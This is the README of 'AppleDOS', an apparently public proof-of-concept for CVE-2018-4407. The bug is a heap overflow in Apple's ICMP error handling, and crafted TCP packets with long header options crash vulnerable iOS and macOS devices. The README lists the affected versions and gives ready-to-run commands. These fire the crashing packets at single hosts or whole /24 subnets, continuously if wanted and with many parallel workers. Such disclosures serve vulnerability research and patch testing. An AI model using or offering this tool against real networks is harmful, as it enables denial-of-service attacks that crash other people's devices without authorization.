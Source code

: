 # AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling through ICMP response message.

![](demo.gif)

This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80).

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 100).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has know issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.